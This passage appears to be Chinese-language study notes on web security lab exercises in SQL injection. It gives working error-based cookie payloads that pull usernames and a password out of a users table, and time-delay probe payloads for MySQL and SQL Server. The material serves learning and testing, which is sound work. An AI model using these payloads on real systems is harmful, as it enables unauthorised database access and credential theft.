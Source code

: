 ```
Cookie: TrackingId='+and+1=cast((select+username+from+users+limit+1)+as+int)--+
```

报错信息：ERROR: invalid input syntax for type integer: "administrator"

```
Cookie: TrackingId='+and+1=cast((select+password+from+users+where+username='administrator')+as+int)--+
```

报错：ERROR: syntax error at end of input   **为什么不行？**

答：`'administrator'` 里出现了引号，导致外层 SQL 报错了，需要对单引号进行url编码 %27

```
Cookie: TrackingId='+and+1=cast((select+password+from+users+limit+1)+as+int)--+
```

ERROR: invalid input syntax for type integer: "hkgrddp50z1iizy2rk9g"

## 10、Lab: Blind SQL injection with time delays and information retrieval（延时注入）

基于时间的盲注

这一关和布尔盲注不一样，SQL注入不会通过页面内容直接暴露出任何“真假”信息，至于实现方法，可能是使用 `try...catch`（或对应语言的异常捕获）捕捉 SQL 错误，使错误不抛出到页面

| 数据库类型     | 延迟函数          | 当前数据库名函数     |
| -------------- | ----------------- | -------------------- |
| **MySQL**      | `SLEEP(5)`        | `DATABASE()`         |
| **PostgreSQL** | `pg_sleep(5)`     | `current_database()` |
| **SQL Server** | `WAITFOR DELAY`   | `DB_NAME()`          |
| **Oracle**     | `dbms_lock.sleep` | `SYS_CONTEXT(...)`   |

怎么知道它网站用的是什么数据库？手动的话就是盲探

MySQL 探测

```
' AND IF(1=1, SLEEP(5), 0) --+
```

或者：

```
' OR SLEEP(5) --+
```

SQL Server 探测

```
'; IF 1=1 WAITFOR DELAY '0:0:5'-- 
```

或者：

```
'; WAITFOR DELAY '0:0:5'-- 
```
